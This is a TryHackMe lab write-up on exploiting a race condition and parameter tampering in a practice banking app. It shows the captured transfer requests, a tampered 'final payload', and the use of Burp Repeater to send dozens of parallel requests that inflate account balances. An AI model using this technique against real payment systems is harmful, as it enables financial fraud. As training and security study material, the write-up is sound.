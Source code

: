 # 🏋️ TryHackMe — Race Conditions (Web) Write-Up

## 🧠 Overview

This TryHackMe room explores **race conditions** in web applications, particularly **Time of Check to Time of Use (TOCTOU)** vulnerabilities. The goal was to exploit a vulnerable banking app and get any one user account above **\$1000** to retrieve the flag.

---

## 🛠️ Tools Used

* Burp Suite (Repeater with parallel request group)
* Web browser (via AttackBox)
* 💡Curiosity, caffeine, and Kiki 🐱

---

## 🔍 Recon and Initial Observations

Three users were provided, each with login credentials. Once inside the app, users could transfer funds to each other. A small fee was deducted on each transfer, and balances were displayed clearly.

I tested:

* Transfer mechanics
* Form data handling
* Backend behavior using Burp Suite

---

## 🔧 Exploitation Phase 1: Race Condition

1. Captured a **valid transfer request** with Burp:

   ```
   POST /transfer/6282 HTTP/1.1
   fund_being_transferred: 1
   calculatedfee: 0.05
   receiver_amount: 0.95
   ```

2. Used **Burp Repeater** → “Send group (parallel)” with 20–50 identical POST requests.

3. Refreshed the receiver's dashboard — balance increased in unexpected increments like:

   ```
   $108.55000000000003
   $170.29999999999959
   ```

These strange floats revealed that **multiple requests were being accepted simultaneously**, exploiting a **TOCTOU race condition**.

---

## 🔥 Exploitation Phase 2: Parameter Tampering

Curious, I tested mismatched values like:

```
fund_being_transferred: 1
receiver_amount: 10
```

Surprisingly, the backend **trusted the receiver’s amount blindly**.

I then launched 40 parallel requests with this structure.

**Result?**

```
$1342.99999999999989 USD
```

And the flag was revealed:

```
THM{****-***-****}
```

---

## 🏆 Final Payload

```http
POST /transfer/6282 HTTP/1.1
fund_being_transferred: 1
receiver_amount: 10
calculatedfee: 0.05
```

💥 40 parallel requests = 400 fake dollars minted in seconds.

---

## 🧠 Lessons Learned

* **Race conditions** can be subtle but powerful when exploited at scale
* **Parameter tampering** is still alive and well in poorly validated forms
* Always test both timing *and* logic separately — then together
* Sometimes, exploiting **both at once** (race + logic flaw) yields wild results

---

## ✅ Status: COMPLETED

Challenge completed with both a working exploit and a valuable real-world lesson in backend security validation. 🧪💸
